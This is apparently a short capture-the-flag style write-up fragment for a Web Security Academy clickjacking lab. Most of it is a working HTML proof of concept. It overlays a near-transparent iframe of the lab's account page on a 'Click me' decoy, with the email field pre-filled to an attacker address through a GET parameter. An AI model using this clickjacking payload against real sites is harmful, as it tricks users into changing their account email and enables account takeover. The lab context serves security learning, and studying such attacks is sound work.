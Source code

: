 We are able to pre-filled the form, in this case the parameters are sending in the path as an usuar GET request
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 1000px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a0800a70352a5f38118e8a2002e003d.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```